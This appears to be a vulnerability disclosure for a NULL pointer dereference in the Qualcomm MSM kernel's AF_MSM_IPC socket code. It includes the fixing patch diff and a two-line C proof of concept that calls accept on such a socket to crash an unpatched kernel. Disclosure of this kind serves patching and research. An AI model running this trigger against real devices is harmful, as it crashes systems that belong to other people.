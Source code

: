 ## Description

NULL pointer dereference when processing accept system call by user process on AF_MSM_IPC sockets.  

The patch is as follows:
https://source.codeaurora.org/quic/la//kernel/msm-3.18/commit/?id=71fe5361cbef34e2d606b79e8936a910a3e95566
```
diff --git a/net/ipc_router/ipc_router_socket.c b/net/ipc_router/ipc_router_socket.c
index 828797b..652531a 100644
--- a/net/ipc_router/ipc_router_socket.c
+++ b/net/ipc_router/ipc_router_socket.c
@@ -555,10 +555,18 @@ static unsigned int msm_ipc_router_poll(struct file *file,
 static int msm_ipc_router_close(struct socket *sock)
 {
 	struct sock *sk = sock->sk;
-	struct msm_ipc_port *port_ptr = msm_ipc_sk_port(sk);
+	struct msm_ipc_port *port_ptr;
 	int ret;
 
+	if (!sk)
+		return -EINVAL;
+
 	lock_sock(sk);
+	port_ptr = msm_ipc_sk_port(sk);
+	if (!port_ptr) {
+		release_sock(sk);
+		return -EINVAL;
+	}
 	ret = msm_ipc_router_close_port(port_ptr);
 	msm_ipc_unload_default_node(msm_ipc_sk(sk)->default_node_vote_info);
 	release_sock(sk);
```

## Poc

```C
#include <sys/socket.h>

#define AF_MSM_IPC 27

void main()
{
	accept(socket(AF_MSM_IPC, SOCK_DGRAM, 0), 0, 0);
}
```